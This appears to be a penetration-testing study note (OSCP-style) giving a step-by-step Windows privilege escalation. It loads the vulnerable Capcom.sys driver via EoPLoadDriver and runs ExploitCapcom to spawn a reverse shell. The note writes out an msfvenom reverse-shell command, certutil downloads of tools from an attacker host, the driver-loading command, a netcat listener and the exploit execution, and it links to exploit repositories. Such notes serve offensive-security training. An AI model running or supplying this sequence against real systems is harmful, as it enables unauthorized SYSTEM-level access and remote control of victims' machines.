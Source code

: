 #### Conditions

version < Windows 10 20H2 (Build 19042)
checking if Windows Defender is active

```powershell
# Disabled:1
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

#### Steps

create reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f exe -o rev.exe
```

download Capcom.sys

```
https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
```

download eoploaddriver.cpp and compile

```
https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp
```

create a new project (Visual Studio 2022 Community Edition)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_1.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_2.png)

change project name ```eoploaddriver```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_3.png)

copy and paste the contents of the ```eoploaddriver.cpp``` file and comment out line 6 ```#include "stdafx.h"```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_4.png)

configure project to target platforms

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_5.png)

build project

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_6.png)

executable file default location

```
C:\Users\<user>\source\repos\eoploaddriver\x64\Release
```

download ExploitCapcom project and compile

```
https://github.com/tandasat/ExploitCapcom
```

Execute original file will pop up an additional window. The code must be modified to run the reverse shell payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_7.png)


upload the files we need on the target

```
certutil -urlcache -split -f "http://<attcker ip>/Capcom.sys" "C:\Windows\Temp\Capcom.sys"
certutil -urlcache -split -f "http://<attcker ip>/eoploaddriver.exe" "C:\Windows\Temp\eoploaddriver.exe"
certutil -urlcache -split -f "http://<attcker ip>/ExploitCapcom.exe" "C:\Windows\Temp\ExploitCapcom.exe"
certutil -urlcache -split -f "http://<attcker ip>/rev.exe" "C:\Windows\Temp\rev.exe"
```

execute the ```eoploaddriver.exe``` on the target (Note that Capcom.sys must specify the full path)

```
C:\Windows\Temp\eoploaddriver.exe System\CurrentControlSet\dfserv C:\Windows\Temp\Capcom.sys
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_8.png)

start listening

```
sudo nc -nlvp 80
```

execute the ```ExploitCapcom.exe``` 

```
C:\Windows\Temp\ExploitCapcom.exe
```

![iamge](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_9.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_10.png)